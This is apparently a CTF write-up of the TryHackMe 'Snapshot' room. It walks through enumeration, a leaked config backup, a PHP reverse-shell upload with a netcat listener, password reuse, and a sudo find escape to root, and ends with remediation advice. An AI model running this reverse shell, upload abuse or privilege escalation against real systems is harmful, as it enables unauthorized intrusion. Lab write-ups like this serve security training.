




# Snapshot - Writeup

> **Room:** [Snapshot](https://tryhackme.com/room/boot2rootVl)
> **Difficulty:** Easy
> **Author:** killerman0654
> **Date:** 10/11/26

## Overview

Snapshot is an easy-rated boot2root themed around a photo-sharing startup that shipped way too fast. The box walks you through a realistic web-to-root chain: enumerating a sloppy web app, finding a leftover config backup that leaks admin credentials, abusing an upload form with no file-type checks to get code execution, then pivoting through a reused password to a real user and finally abusing a sudo misconfiguration to land as root. It’s a great room for practising the “one weak link leads to the next” mindset that real engagements rely on.

**Attack path (TL;DR):**
`enumeration → config backup leak → admin login → file upload (RCE) → www-data → password reuse → snap → sudo find → root`

---

## 1. Reconnaissance

### Port scan

We first start this room by looking at whats exposed to the web on the lab machine. We can simply do this by running a nmap scan, we do not really have to worry about detection, so I am running a thorough / fast command.

```bash
$ nmap -sV -sC -p- -T4 MACHINE_IP

Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-10 14:27 +0100
Nmap scan report for 10.114.158.58
Host is up (0.016s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 81:05:68:ac:fb:55:0e:b1:18:8e:8e:7d:25:c0:37:71 (RSA)
|   256 15:ad:03:37:93:06:2c:a2:2b:81:24:99:dc:13:72:18 (ECDSA)
|_  256 71:08:9a:e2:be:a7:cb:eb:7b:f6:5b:60:e8:91:08:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Snapshot - Share your moments
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 154.25 seconds

```

The scan shows two open ports: 22 (SSH) and 80 (HTTP). There’s nothing exotic here, so the web server on port 80 is clearly our way in - SSH is just there for later use once we have credentials, though I wont be doing that in this writeup, feel free to use it yourself. Let’s focus on the website.

### Web enumeration

Now that we know that there's a webserver running (which we could also see in the challenge details), we can continue investigating it by doing some web enumeration. We can first do some passive recon by just simply visiting the site, let's see what there's available to us.



Now, we have seen what there's available to us by just browsing the site, but we do not know what more there's available to us. We can do a directory brute force to find out.

Let's run the following command:

```bash
$ gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,html,js

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.158.58/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta.php             (Status: 403) [Size: 278]
.hta.html            (Status: 403) [Size: 278]
.hta                 (Status: 403) [Size: 278]
.hta.js              (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
.htaccess.html       (Status: 403) [Size: 278]
.htaccess.php        (Status: 403) [Size: 278]
.htaccess.js         (Status: 403) [Size: 278]
.htpasswd            (Status: 403) [Size: 278]
.htpasswd.html       (Status: 403) [Size: 278]
.htpasswd.php        (Status: 403) [Size: 278]
.htpasswd.js         (Status: 403) [Size: 278]
admin                (Status: 301) [Size: 314] [--> http://10.114.158.58/admin/]
config.php           (Status: 200) [Size: 0]
index.php            (Status: 200) [Size: 439]
index.php            (Status: 200) [Size: 439]
server-status        (Status: 403) [Size: 278]
uploads              (Status: 301) [Size: 316] [--> http://10.114.158.58/uploads/]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
```

We do see the same layout as what we can find by just doing a passive recon, but the challenge also gives us a very nice hint, that we should be looking for backups. We did not yet include that into our first gobuster enumeration, so let's run it again, but this time, include the bak extension.

```bash
$ gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,html,js,bak

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.114.158.58/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              js,bak,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta.bak             (Status: 403) [Size: 278]
.htaccess            (Status: 403) [Size: 278]
.hta.php             (Status: 403) [Size: 278]
.hta.js              (Status: 403) [Size: 278]
.hta                 (Status: 403) [Size: 278]
.hta.html            (Status: 403) [Size: 278]
.htpasswd.html       (Status: 403) [Size: 278]
.htaccess.html       (Status: 403) [Size: 278]
.htaccess.bak        (Status: 403) [Size: 278]
.htpasswd            (Status: 403) [Size: 278]
.htaccess.js         (Status: 403) [Size: 278]
.htpasswd.js         (Status: 403) [Size: 278]
.htpasswd.bak        (Status: 403) [Size: 278]
.htaccess.php        (Status: 403) [Size: 278]
.htpasswd.php        (Status: 403) [Size: 278]
admin                (Status: 301) [Size: 314] [--> http://10.114.158.58/admin/]
config.php           (Status: 200) [Size: 0]
config.bak           (Status: 200) [Size: 107]
index.php            (Status: 200) [Size: 439]
index.php            (Status: 200) [Size: 439]
server-status        (Status: 403) [Size: 278]
uploads              (Status: 301) [Size: 316] [--> http://10.114.158.58/uploads/]
Progress: 23750 / 23750 (100.00%)
===============================================================
Finished
===============================================================

```

Hey that's interesting, there is a config.bak file that we can reach, let's put it into the URL.

---

## 2. Initial Access

### Leaking the credentials

By putting the config.bak into the url, we were able to download the file. Now we can easily read the contents of the file by running the following command:

```bash
$ cat config.bak

<?php
// Legacy Snapshot config (pre-database)
$adminUser = "admin";
$adminPass = "xxxxx";
?>

```

Okay, now that's some info that we can exploit, we can clearly see some login credentials for the admin password!

Let's note this down...

### Logging in and uploading a shell

Now that we have some credentials to login, let's head to the login page (/admin) and login using these credentials.



Now that we are logged in, we are automatically send to an uploads page (a page that we also saw in our web enumeration). Let's see what we can do with this, my first thought is: Can I upload any file I want to this?

We can check this by looking at the source code of the page.

```html
<!DOCTYPE html>
<html>
<head><title>Upload a photo</title></head>
<body style="font-family:sans-serif;max-width:420px;margin:60px auto;">
  <h2>Upload a photo</h2>
    <form method="POST" enctype="multipart/form-data">
    <p><input type="file" name="image"></p>
    <p><button type="submit" style="padding:8px 16px;">Upload</button></p>
  </form>
  <p><a href="../uploads/">Browse uploads</a></p>
</body>
</html>
```

We can clearly see that it's just a blank upload form, so we can indeed upload anything that we want. We can get a reverse shell through this by uploading a revershell.php file to it. 

You can find the script by searching for it on any browser. There are a bunch available, but I went ahead with this one: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

Now, I went ahead and edited this script, I just needed to change 2 variables to that of my use case.



Now that we have the revereshell ready, we can upload it to the website and we should start a listener on the port that we gave with it. In my case, it's port 4444. 

We can do this by running the following command:

```bash
$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [192.168.150.37] from (UNKNOWN) [10.114.158.58] 39558
Linux snapshot 5.4.0-216-generic#236-Ubuntu SMP Fri Apr 11 19:53:21 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 14:35:36 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

Now that we prepared our machine for the reverseshell, we can go ahead and open it on the website, this should immediately open up the shell for us to use!

Now that we have access, let's check who we are, we can do this by running the whoami command.

```bash
$ whoami

www-data
```

---

## 3. Lateral Movement

### Finding the reused password

Now, let's see what we can do, let me first check which other users there are, we can do this by listing the contents of /home.

```bash
$ ls /home

snap
snapshotadmin
```

We can see that there's a "snap" account, this is what we want to know the password/user.txt off. So let's just try to change directory into the home directory of the user "snap".

```bash
$ cd snap

/bin/sh: 10: cd: can't cd to snap
```

Hmm, no access, that is interesting, so I think that we need to get the password of the actual account now. So let's see if we can find this.

We already know that there's a backup file of the config just exposed to the web, so let's go to it's directory and see what else there is in it.

We need to head back to /var/www/html.

Then we check what there's in this directory by listing it with ls.

```bash
$ ls /var/www/html/

admin
config.bak
config.php
index.php
uploads

```

Hey, there is a config.php, let's see what's in it. 

```bash
$ cat config.php

<?php
$adminUser = "admin";
$adminPass = "xxxxxx";
// Service account credentials (added when the DB backend was introduced)
$dbUser = "snap";
$dbPass = "xxxxx";
?>

```

Interesting! We can see the credentials of the account in there!

### Becoming snap & the user flag

Now that we know the credentials of the snap account, let's login to it. 

```bash
$ su snap

Password: xxxx
whoami
snap

```

And let's read the user.txt file for the user flag.

```bash
$ cat user.txt

THM{xxxxx}
```

> **User flag:** `THM{...}`

---

## 4. Privilege Escalation

### Enumerating sudo rights

Now that we have access to the snap account, let's see what we can do to escalate our permissions to root. We can do this by running the following command:

```bash
$ sudo -l

Matching Defaults entries for snap on Snapshot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User snap may run the following commands on Snapshot:
    (root) NOPASSWD: /usr/bin/find

```

### Exploiting the misconfiguration

Perfect, we can see that there's a binary that we can run as root. Let's look it up on a very nice website, https://gtfobins.org/

Then let's search for the binary "find":



Very nice, we can use the one liner code to escalate our permissions to root by running it:

```bash
$ sudo find . -exec /bin/sh \; -quit

$ whoami

root
```

Nice, we are root now.

### Root flag

Now that we are root, we can find the final flag of this challenge by running the following command:

```bash
$ cat /root/root.txt

THM{xxxx}
```

> **Root flag:** `THM{...}`

---

## Remediation

- **Backup disclosure:** Never leave .bak or other source backups in the web root. Keep backups outside the served directory, and configure Apache to deny access to backup/hidden file extensions.
- **Unrestricted upload:** Validate uploads server-side - check file type/extension against an allowlist (e.g. images only), store uploads outside the web root or in a directory where PHP execution is disabled, and rename files on upload.
- **Password reuse:** Use unique, randomly generated credentials per service and account. The web app’s service password should never match a real user’s login password.
- **Sudo misconfiguration:** Don’t grant NOPASSWD sudo on binaries that can execute arbitrary commands (find, vim, awk, etc.). Scope sudo rights to the minimum needed, and audit /etc/sudoers regularly.

---

## Conclusion

Snapshot was a clean run through a realistic attack chain — turning a forgotten backup file into admin access, admin access into a shell, a reused password into a real user, and a single sudo misconfiguration into full root. It’s a solid reminder that security is only as strong as its weakest link, and that careful enumeration at every stage is what ties the whole chain together. Thanks for reading!